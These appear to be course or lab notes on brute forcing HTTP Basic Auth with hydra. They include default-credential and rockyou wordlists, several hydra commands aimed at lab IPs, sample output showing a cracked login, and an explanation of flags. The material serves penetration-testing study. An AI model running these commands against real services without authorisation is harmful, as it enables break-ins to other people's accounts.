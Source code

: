 # ☄️ Basic HTTP Auth Brute Forcing

To install hydra -> "`apt install hydra -y`" or download it and use it from its [Github Repository](https://github.com/vanhauser-thc/thc-hydra)

It's good to start with lists of default passwords such as `test:test,`if we could not find any working pairs, we would move to use separate wordlists

Good lists are from seclist in the `/usr/share/seclists/Passwords/Default-Credentials`

```shell-session
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

And the output will look something like that:

```shell-session
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

_**Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**_

```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.50.83 -s 44054 http-get
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Credentials can also be separated by `usernames` and `passwords`. We can use the `-L` flag for the usernames wordlist and the `-P` flag for the passwords wordlist. Since we don't want to brute force all the usernames in combination with the passwords in the lists, we can tell `hydra` to stop after the first successful login by specifying the flag `-f`.

### Username/Password Attack

{% hint style="info" %}
"-u" flag so that it tries all users on each password and goes faster
{% endhint %}

```
 hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

### Username Brute Force

we can brute force passwords for the `test` user by adding `-l test`

If we already found the password in the previous section, we may statically assign it with the "`-p`" flag, and only brute force for usernames that might use this password.

```shell-session
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```
